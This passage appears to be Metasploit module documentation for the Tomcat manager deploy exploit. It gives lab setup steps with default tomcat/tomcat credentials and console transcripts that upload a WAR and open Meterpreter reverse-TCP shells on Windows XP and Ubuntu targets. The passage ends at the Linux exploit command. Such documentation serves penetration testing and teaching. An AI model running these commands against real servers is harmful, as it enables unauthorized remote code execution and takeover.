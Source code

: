    msf exploit(tomcat_mgr_deploy) > set target 1
    target => 1
    msf exploit(tomcat_mgr_deploy) > exploit
    msf exploit(tomcat_mgr_deploy) > set path /manager/text
    path => /manager/text
    msf exploit(tomcat_mgr_deploy) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Using manually select target "Java Universal"
    [*] Uploading 6085 bytes as c6TYmkd8YAe8LqKQhSCr.war ...
    [*] Executing /c6TYmkd8YAe8LqKQhSCr/PtW1uMsYCIFP1gs16PUiwE7oc.jsp...
    [*] Undeploying c6TYmkd8YAe8LqKQhSCr ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:1196) at 2017-01-14 10:24:52 -0500
    
    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    ```

#### gui Interface
The permission `manager-gui`, is required for this exploitation, and the `PATH` should be `/manager/html`.  However, my attempts were unsuccessful, also wasn't able to figure out where the `check` command's `serverinfo` URL was located.  [Manual exploitation is possible](#manual-exploitation)

## Linux

### Tomcat6 (6.0.39) - Ubuntu server 14.04 64bit

#### Setup

1. Install Tomcat and dependencies: `sudo apt-get install tomcat6 tomcat6-admin`

#### Exploit

1. Edit `/etc/tomcat6/tomcat-users.xml` to add the following:

  ```
  <role rolename="manager"/>
  <user username="tomcat" password="tomcat" roles="manager"/>
  ```

2. Restart Tomcat: `sudo service tomcat6 restart`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy 
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.156
    rhost => 192.168.2.156
    msf exploit(tomcat_mgr_deploy) > set rport 8080
    rport => 8080
    msf exploit(tomcat_mgr_deploy) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set payload linux/x86/mettle/reverse_tcp
    payload => linux/x86/mettle/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set target 3
    target => 3
    msf exploit(tomcat_mgr_deploy) > exploit